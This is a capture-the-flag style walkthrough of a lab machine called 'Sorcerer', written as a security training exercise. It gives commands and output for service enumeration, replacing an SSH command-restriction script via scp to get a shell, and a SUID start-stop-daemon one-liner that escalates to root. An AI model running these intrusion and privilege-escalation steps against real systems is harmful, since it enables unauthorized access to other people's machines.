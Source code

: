 # Sorcerer

### Enumeration

```
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:2a:42:24:b5:90:a1:ce:9b:ac:e7:4e:1d:6d:b4:c6 (RSA)
|   256 d0:73:2a:05:52:7f:89:09:37:76:e3:56:c8:ab:20:99 (ECDSA)
|_  256 3a:2d:de:33:b0:1e:f2:35:0f:8d:c8:d7:8f:f9:e0:0e (ED25519)
...
7742/tcp  open  http     nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: SORCERER
8080/tcp  open  http     Apache Tomcat 7.0.4
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.4
```

```
Gobuster-7742: /zipfiles

http://192.168.112.100:7742/zipfiles/
max.zip

tomcat-users.xml.bak
---
<user username="tomcat" password="[REDACTED]" roles="manager-gui"/>

authorized_keys
---
no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,command="/home/max/scp_wrapper.sh" ssh-rsa

scp_wrapper.sh
---
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

This script is using for limiting the ssh user command to just scp. When we connect with ssh, /home/max/scp\_wrapper.sh will be executed. So we can change this script with as we want to unlimited access. Or we can use tomcat manager with evil jar deploying to get initial shell.

### Initial Access

Edit the file as follows

zipfiles/max/max/scp\_wrapper.sh

```
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "haha!"
    bash
    ;;
esac
```

```
┌──(kali㉿kali)-[~/…/zipfiles/max/max/.ssh]
└─$ scp ../scp_wrapper.sh -i id_rsa max@192.168.112.100:/home/max/scp_wrapper.sh
┌──(kali㉿kali)-[~/…/zipfiles/max/max/.ssh]
└─$ ssh -i id_rsa max@192.168.112.100                                 
PTY allocation request failed on channel 0
haha!
```

### PrivEsc

SUID -> /usr/sbin/start-stop-daemon

```
-rwsr-xr-x 1 root root 44K Jun  3  2019 /usr/sbin/start-stop-daemon
```

[https://gtfobins.github.io/gtfobins/start-stop-daemon/](https://gtfobins.github.io/gtfobins/start-stop-daemon/)

```
$ /usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
